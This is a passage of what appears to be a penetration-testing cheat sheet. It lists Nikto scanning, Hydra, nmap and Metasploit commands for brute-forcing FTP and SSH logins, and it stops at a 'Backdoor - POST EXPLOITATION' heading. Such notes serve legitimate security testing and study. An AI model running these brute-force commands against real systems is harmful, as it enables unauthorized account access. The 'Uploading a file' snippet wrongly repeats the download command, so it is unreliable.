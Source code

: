 - Nikto Vulnerability Scanning

```bash
nikto -h <url>
```


## FTP 21

- BruteForcing
 
```bash
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```
- Downloading a file
   
```bash
# Downloading a file 
ftp <IP>
passive 
binary
get <File> 
```
- Uploading a file

```bash
# Uploading a file 
ftp <IP>
passive 
binary
get <File> 
```

## SSH 22

- Brute Forcing 

```bash
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

```bash
nmap -p 22 --script ssh-brute --script-args userdb=<users.txt> <target_IP>
```

```bash
#using msfconsole

use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target ip>
set USERPASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
```

- Backdoor - POST EXPLOITATION
